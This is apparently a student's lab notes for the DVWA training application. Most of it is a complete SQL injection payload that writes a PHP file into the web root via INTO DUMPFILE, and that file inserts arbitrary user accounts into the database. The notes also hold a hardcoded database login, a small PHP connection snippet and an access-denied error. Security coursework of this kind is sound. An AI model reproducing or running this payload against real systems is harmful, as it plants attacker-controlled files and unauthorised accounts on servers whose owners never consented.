 # IAW301
' union select null,'<?php if(isset($_POST["submit"])) { $userID = $_POST["userID"]; $first_name = $_POST["first_name"]; $last_name = $_POST["last_name"]; $username = $_POST["username"]; $avatar = $_POST["avatar"]; echo "userID: $userID<BR>"; echo "first_name: $first_name<BR>"; echo "last_name: $last_name<BR>"; echo "username: $username<BR>"; echo "avatar: $avatar<BR>"; $con=mysqli_connect("127.0.0.1","minhlqhe140825","bnm123456","dvwa"); if (mysqli_connect_errno()) { echo "Failed to connect to MySQL: " . mysqli_connect_error(); } else { echo "Connected to database<BR>"; } $password = "abc123"; $sql="insert into dvwa.users values (\\"$userID\\",\\"$first_name\\",\\"$last_name\\",\\"$username\\",MD5(\\"$password\\"),\\"$avatar\\")"; if (mysqli_query($con,$sql)) { echo "[Successful Insertion]: $sql"; } else { echo "Error creating database: " . mysqli_error($con); } mysqli_close($con); } ?> <form method="post" action="<?php echo $_SERVER["PHP_SELF"]; ?>"> <input type="text" name="userID" value="33"><br> <input type="text" name="first_name" value="John"><br> <input type="text" name="last_name" value="Gray"><br> <input type="text" name="username" value="jgray"><br> <input type="text" name="avatar" value="Just Hack It!"><br> <input type="submit" name="submit" value="Submit Form"><br> </form>' INTO DUMPFILE 'C:\xampp\htdocs\DVWA\create_user.php' -- -

<?php
    mysqli_connect("localhost", "root", "", "GFG");
 
    if(mysqli_connect_error())
        echo "Connection Error.";
    else
        echo "Database Connection Successfully.";
?>

mysqli_connect(): (HY000/1045): Access denied for user
